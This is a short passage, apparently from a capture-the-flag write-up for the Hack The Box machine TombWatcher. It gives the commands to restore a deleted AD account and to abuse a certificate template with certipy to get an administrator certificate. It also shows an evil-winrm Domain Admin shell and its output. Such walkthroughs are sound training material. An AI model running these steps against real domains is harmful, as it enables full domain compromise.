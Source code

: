 ## Restoring AD object
```
Get-ADObject -filter {SamAccountName -eq 'cert_admin'} -IncludeDeletedObjects
Restore-ADObject -Identity <GUID>
Enable-ADAccount -Identity cert_admin
```

## Requesting admin cert with old certipy (pip version):
```
python3 entry.py req -dc-ip 10.10.11.72 -ca tombwatcher-CA-1 -u cert_admin@tombwatcher.htb -p 'NoSecHere' -template WebServer -upn administrator@tombwatcher.htb -application-policies 1.3.6.1.5.5.7.3.2
```

## Evil-WinRM shell as DA
```
evil-winrm -i 10.10.11.72 -u administrator -p NoSecHere

*Evil-WinRM* PS C:\Users\Administrator\Desktop> dir


    Directory: C:\Users\Administrator\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        6/13/2025   7:13 AM             34 root.txt
```

---

## That was the TombWatcher machine! If you finished it, instant respect! 👾
